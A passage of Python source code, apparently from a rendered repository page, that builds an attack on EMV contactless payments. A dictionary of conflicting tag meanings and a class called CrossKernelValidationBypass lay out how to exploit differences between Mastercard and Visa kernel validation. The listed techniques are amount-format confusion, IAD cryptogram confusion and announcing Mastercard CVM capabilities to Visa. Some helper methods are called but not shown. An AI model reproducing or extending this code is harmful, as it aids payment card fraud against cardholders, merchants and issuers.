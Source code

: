 ```python
            },
            '9F7A': {
                'mastercard': 'Reserved',
                'visa': 'VLP Issuer Authorization Code', 
                'exploit': 'Cross-interpret authorization codes'
            }
        }
        
        return self.build_confusion_payload(confusion_tags)

# Terminal Validation Bypass
class CrossKernelValidationBypass:
    def __init__(self):
        self.validation_rules = self.load_validation_differences()
        
    def load_validation_differences(self):
        """
        Carrega diferenças de validação entre kernels
        """
        return {
            'amount_validation': {
                'mastercard': 'Validates amount in PDOL against 9F02',
                'visa': 'Additional validation against transaction limits',
                'bypass': 'Use MC amount format with Visa processor'
            },
            'cryptogram_validation': {
                'mastercard': 'CDA/DDA validation with specific IAD format',
                'visa': 'Different IAD interpretation and validation',
                'bypass': 'Cross-kernel IAD format confusion'
            },
            'cvm_validation': {
                'mastercard': 'Supports CDCVM for contactless',
                'visa': 'Limited CVM support, stricter validation',
                'bypass': 'Announce MC CVM capabilities to Visa'
            }
        }
    
    def exploit_validation_gap(self, gap_type, payload):
        """
        Explora lacuna específica de validação
        """
        rules = self.validation_rules.get(gap_type)
        if not rules:
            return False
            
        # Apply bypass technique
        bypass_payload = self.apply_bypass_technique(rules['bypass'], payload)
        return self.test_bypass_success(bypass_payload)
```

## Framework Integration
